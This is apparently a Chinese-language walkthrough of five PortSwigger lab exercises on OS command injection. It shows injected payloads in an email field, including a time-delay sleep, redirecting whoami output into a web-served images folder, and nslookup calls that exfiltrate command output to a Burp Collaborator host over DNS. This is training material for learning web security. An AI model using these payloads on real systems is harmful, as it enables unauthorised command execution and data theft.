 [TOC]

#### 1. OS command injection, simple case

> The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
>
> To solve the lab, execute the `whoami` command to determine the name of the current user.

注入点在`Check stock`那里，要么抓包，要么直接网页代码。

![1.1](OS-command-burp.assets/1.1.png)

#### 2. Blind OS command injection with time delays

> The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.
>
> To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

在feedback界面抓包，将email改成`email=a||sleep+10s||`。

这里应该是email的前面后面都有语句，前面填a并将后面截断那么命令应该就是错的，所以要成功执行，就要前后隔开。

本来是：`part1 +  add-part + part2`

注入`add-part`部分，需要前后都隔开。

比如可以直接`part1 + |sleep 10s; + part2 `，即payload=`|sleep%2010s;`。

只要前后正确隔开，使得中间的延时命令成功执行就好。

#### 3. Blind OS command injection with output redirection

> However, you can use output redirection to capture the output from the command. There is a writable folder at:`/var/www/images/`
>
> The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.
>
> To solve the lab, execute the `whoami` command and retrieve the output.

注入点和第二题一样：`email=||echo+$(whoami)>/var/www/images/a.txt||`

写入后直接访问发现不行。然后去看一下其他图片是怎么加载的：

`<img src="/image?filename=72.jpg">`

于是去访问`/image?filename=a.txt`，成功得到结果。

#### 4. Blind OS command injection with out-of-band interaction

> you can trigger out-of-band interactions with an external domain.
>
> To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

注入点应该还在那里：`email=||nslookup+http://t710b2bnu8s8ow4w6jl6fzcd64cu0j.burpcollaborator.net||`

好家伙，我这个都过了，burp collaborator都没有收到请求。

去看了一下，答案没有加http协议。

#### 5. Blind OS command injection with out-of-band data exfiltration

> To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

注入点应该还在那里：`email=||nslookup+$(whoami).334a7ufujcj4f91ixr77z9pr6ic80x.burpcollaborator.net||`

直接拿到结果。

